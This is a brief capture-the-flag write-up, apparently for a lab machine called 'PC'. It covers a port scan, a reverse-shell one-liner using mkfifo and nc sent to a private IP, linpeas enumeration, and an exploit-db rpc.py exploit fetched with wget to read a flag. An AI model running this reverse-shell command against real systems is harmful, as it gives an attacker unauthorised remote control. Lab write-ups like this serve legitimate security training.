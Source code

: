 # PC

So i start by scanning the target and see an interesting service on port 8000:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

I input:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.245 7878 >/tmp/f
```

and get a shell:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Not very useful but let's see so i run a linpeas:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok so i look up rpc.py and find some exploits:

{% embed url="https://www.exploit-db.com/exploits/50983?source=post_page-----7619983c7d63---------------------------------------" %}

so i wget the script on the target machine and run it with the command:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and after running it we can see flag.txt in our tmp file, could've also gotten a reverse shell but got lazy
